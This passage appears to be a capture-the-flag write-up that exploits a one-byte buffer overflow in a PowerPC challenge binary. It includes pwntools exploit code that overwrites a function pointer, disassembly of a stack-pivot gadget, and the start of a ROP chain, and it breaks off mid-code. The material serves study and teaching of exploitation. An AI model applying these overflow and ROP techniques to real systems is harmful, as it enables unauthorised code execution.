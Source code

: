 

### BOF Vulnerability

First let's define some helper functions that allow us to interact with the code:
<details></details>

Now we can try out the one byte BOF to get arbitrary code execution, i.e. by overwriting the `rover.code` function pointer into immediately returning

```python
t = get_target()

joke('BOF? Boffa theese ...')

choose(0)

# create bof
linfo('one byte BOF')
bof = flat(
  cyclic(0x100),
  p8(0x74) # blr -> immediatly return
)

set_name(bof, oob=True)
# arbitary code execution
exc()

it()
```

> Note: Please routinely check if your exploit code works on the remote server.

And it works, so what next? Luckily (or by design) there is this gadget within one byte of our address:

```assembly
10000e64 a0 00 3f 38     addi       r1,r31,0xa0   ; r1  = r31+0xa0
10000e68 10 00 01 e8     ld         r0,0x10(r1)   ; r0  = *(r1+0x10)
10000e6c a6 03 08 7c     mtspr      LR,r0         ; lr  = r0
10000e70 f8 ff e1 eb     ld         r31,0x8(r1)   ; r31 = *(r1+0x8)
10000e74 20 00 80 4e     blr                      ; branch to lr
...
; cmd_set_name()
10000e84 11 10 40 3c     lis        r2,0x1011

```

Even luckier this pivots the stack to the buffer allocated for our funny joke;

```python

linfo('write rop payload for later')
PAYLOAD_START = 0x10110116
rop = flat(
  0x6fe1be2, # r31
  cyclic(0x10),
  exe.sym.main, # ctr
)
joke(rop)
t = get_target()

# choose last rover for the bof vulnerability
choose(0xe)

linfo('one byte BOF')
bof = flat(
  cyclic(0x100),
```